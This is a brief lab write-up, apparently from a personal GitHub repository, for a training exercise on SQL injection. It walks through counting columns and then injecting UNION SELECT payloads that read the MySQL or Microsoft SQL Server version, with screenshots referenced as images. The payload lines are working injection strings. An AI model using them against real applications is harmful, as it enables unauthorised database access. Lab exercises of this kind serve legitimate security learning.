 ```markdown
## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
```

## Step 1

Check number of column

<img src="Images/ps1.png" width="350" height="200">

## Step 2

Check in which column we can insert

<img src="Images/ps2.png" width="350" height="200">

Here we are able to insert in both column

<img src="Images/ps3.png" width="350" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="Images/ps4.png" width="350" height="200">

And we have the answer

<img src="Images/ps5.png" width="350" height="200">

---
